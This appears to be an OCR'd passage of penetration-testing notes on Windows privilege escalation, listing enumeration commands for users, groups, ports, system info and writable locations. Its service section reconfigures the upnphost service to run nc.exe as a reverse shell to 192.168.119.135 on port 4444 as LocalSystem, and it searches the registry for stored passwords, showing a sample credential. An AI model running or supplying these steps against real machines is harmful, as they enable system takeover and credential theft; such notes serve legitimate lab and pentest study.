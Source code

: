                - assign integrity level (must be admin)
                    > icacls asd.txt /setintegritylevel(oi)(ci) High
        - Info about other users
            - For yourself
                > net user 
            - For another user
                - Show groups a user is in
                    > net user <username>
                    > gpresult /USER <username> /V 
                    > net user <username> /domain
        - Info about groups built on system
            - List all groups
                > net localgroup
            - View users in group
                > net localgroup groupname
        - IP info
            > ifconfig /all | more
        - Port info
            > netstat -ano
        - Gather windows version
            > powershell -c Get-ComputerInfo -Property "WindowsVersion"
        - Gather System info
            > systeminfo
            > systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
        - Check architecture
            > set pro
            > wmic OS get OSArchitecture
            - In powershell
                > $env:PROCESSOR_ARCHITECTURE
        - Writeable locations
            - Checking integrity levels (look at groups "medium")
                > icacls <file>
                - assign integrity level (must be admin)
                    > icacls asd.txt /setintegritylevel(oi)(ci) High
            - Test where you can write to 
                > echo test > test.txt 
                    - If you get an "Access is denied" you cannot write 
                > icacls C:\folder\to\check
                    - If "BUILTIN\Users" shows "WD" you can write data/add files.
        - service commands
            - Query configuration of service
                > sc qc upnphost
                > sc qc SSDPSRV
                > sc qc SSDPSRV start= auto
            - Query current status of service
                > sc query upnphost
            - Change service
                > sc config upnphost obj= ".\LocalSystem" password= ""
                > sc config upnphost binPath= "C:\Inetpub\nc.exe 192.168.119.135 -nv 4444 -e C:\WINDOWS\System32\cmd.exe"
            - Start or stop service
                > net start upnphost
                > net stop upnphost
        - Check registry for credentials
            > reg query HKLM /f pass /t REG_SZ /s
            - example of output
                HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control
                    CurrentPass    REG_SZ    TwilightAirmailMuck234
